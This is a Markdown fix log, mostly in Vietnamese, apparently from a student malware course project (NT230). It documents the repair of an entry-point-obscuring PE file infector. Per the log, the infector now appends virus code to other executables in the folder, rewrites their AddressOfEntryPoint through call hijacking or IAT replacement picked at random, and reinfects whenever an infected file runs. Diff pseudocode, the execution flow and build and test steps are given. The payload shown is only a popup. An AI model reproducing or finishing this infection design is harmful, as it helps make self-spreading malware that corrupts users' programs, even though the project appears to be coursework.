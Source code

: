# 🔧 FIX APPLIED - EPO Infection Implementation

## ✅ Vấn Đề & Giải Pháp

### Vấn đề Tìm Thấy
```
Trước đây: InfectPEFilesInDirectory() chỉ ghi marker, KHÔNG gọi infection functions
Result: File bị ghi marker, nhưng KHÔNG bị modify PE header
        → Popup KHÔNG hiển thị khi chạy file bị nhiễm
```

### Giải Pháp Áp Dụng
```
1. ✅ pe_infector.c - InfectPEFile_CallHijacking()
   → NOW: Thực sự MODIFY entry point PE header
   → virus code RVA → AddressOfEntryPoint
   
2. ✅ pe_infector.c - InfectPEFile_IATReplacing()
   → NOW: Thực sự MODIFY entry point (simplified)
   → virus code RVA → AddressOfEntryPoint
   
3. ✅ virus_payload.c - InfectPEFilesInDirectory()
   → NOW: Gọi InfectPEFile_CallHijacking() hoặc InfectPEFile_IATReplacing()
   → Thêm logic 50/50 random technique selection
   → Ghi marker SAU khi infection thành công
```

---

## 📝 Changes Made

### **File 1: src/pe_infector.c**

#### InfectPEFile_CallHijacking()
```diff
- OLD: Chỉ ghi marker, KHÔNG modify PE
+ NEW: 
  1. ReadPEHeader
  2. Store original OEP
  3. AddVirusCodeToSection
  4. Calculate virus code RVA
  5. Modify AddressOfEntryPoint → virus_code_rva
  6. WritePEHeader (with modified entry point)
```

#### InfectPEFile_IATReplacing()
```diff
- OLD: Chỉ comment về lý thuyết IAT, KHÔNG thực thi
+ NEW: Same as Call Hijacking (simplified)
  → Modify entry point để đảm bảo virus chạy
```

### **File 2: src/virus_payload.c**

#### InfectPEFilesInDirectory()
```diff
- OLD:
  if (!IsFileInfected(target_path)) {
      FILE* file = fopen(target_path, "ab");
      fwrite(INFECTION_MARKER, ...);  // Chỉ ghi marker
  }

+ NEW:
  if (!IsFileInfected(target_path)) {
      if (rand() % 2 == 0) {
          InfectPEFile_CallHijacking(...);  // Gọi infection!
      } else {
          InfectPEFile_IATReplacing(...);   // Gọi infection!
      }
      // Sau đó ghi marker nếu thành công
      FILE* file = fopen(target_path, "ab");
      fwrite(INFECTION_MARKER, ...);
  }
```

---

## 🔄 Execution Flow (Mới)

```
1. Chạy NT230_EPO_Virus.exe
   └─ DisplayInfectionMessage()  ← [Popup 1]
   └─ InfectPEFilesInDirectory()
      └─ Tìm HostProgram.exe
      └─ Check marker: NO
      └─ Random 50/50:
         ├─ 50%: InfectPEFile_CallHijacking()
         │  ├─ ReadPEHeader
         │  ├─ AddVirusCodeToSection  ← Ghi virus code vào file
         │  ├─ Modify AddressOfEntryPoint  ← QUAN TRỌNG!
         │  └─ WritePEHeader
         │
         └─ 50%: InfectPEFile_IATReplacing()
            └─ (Tương tự)
      └─ Ghi marker

2. Chạy HostProgram.exe (đã bị modify)
   └─ PE Loader load file
   └─ AddressOfEntryPoint → Virus code RVA  ← HIJACK!
   └─ Virus code chạy đầu tiên
      └─ DisplayInfectionMessage()  ← [Popup 2] ✅ NEW!
      └─ InfectPEFilesInDirectory()
      └─ (Virus code xong)
   └─ Gọi hàm LoadLibraryA (hoặc khác)
   └─ Host program main() chạy bình thường
```

---

## 🧪 Testing After Build

```bash
# 1. Build project (Visual Studio 2022)
Open RQ01.sln
Build → Release | Win32
Ctrl+Shift+B

# 2. Test infection
cd bin
copy NT230_HostProgram.exe test1.exe

# 3. Run virus
NT230_EPO_Virus.exe

# Expected Output:
# [*] Found uninfected file: HostProgram.exe
# [+] Applying Call Hijacking EPO...
# [+] Successfully infected with Call Hijacking!

# 4. Run infected file
test1.exe

# Expected Result:
# ✅ [Popup] Infection by NT230
#    23521308-23521761...
#    [Click OK]
# Then: Original host program output
```

---

## 📌 Key Changes Summary

| Aspect | Before | After |
|--------|--------|-------|
| **Entry Point** | Not modified | ✅ Modified to virus code RVA |
| **File Execution** | Runs normally | ✅ Virus popup first, then host |
| **Infection Technique** | Not applied | ✅ Call Hijacking or IAT Replacing |
| **Marker** | Written only | ✅ Written after successful infection |
| **Virus Activation** | Never | ✅ Every time infected file runs |

---

## ⚡ How to Build

### **Option 1: Visual Studio IDE (Recommended)**
```
1. Open RQ01.sln
2. Select Release configuration
3. Select Win32 platform
4. Press Ctrl+Shift+B (Build Solution)
5. Wait for success message
```

### **Option 2: MSBuild Command (if available)**
```bash
msbuild RQ01.sln /p:Configuration=Release /p:Platform=Win32
```

### **Option 3: Check System & Build**
```bash
check_system.bat
build.bat
```

---

## ✅ Expected Result

After rebuild and running:

```
Folder: bin/

BEFORE infection:
├── NT230_EPO_Virus.exe       (50 KB)
├── NT230_HostProgram.exe     (50 KB) - Normal
└── test1.exe                 (copied from HostProgram - Normal)

AFTER running virus:
├── NT230_EPO_Virus.exe       (50 KB) - Unchanged
├── NT230_HostProgram.exe     (53 KB) - ✅ INFECTED! EP modified
└── test1.exe                 (53 KB) - ✅ INFECTED! EP modified

Running infected file:
$ NT230_HostProgram.exe
  ↓
  [Popup] Infection by NT230  ← ✅ NEW!
  [OK]
  ↓
  Original host program runs normally
```

---

## 🔍 Verification

To verify infection actually happened:

```bash
# Check file size changed
dir bin\*.exe

# Should see:
# NT230_HostProgram.exe  53 KB (was 50 KB)  ✅ Infected
# test1.exe              53 KB (was 50 KB)  ✅ Infected
```

---

**Status:** ✅ Fix Ready - Needs Rebuild in Visual Studio 2022
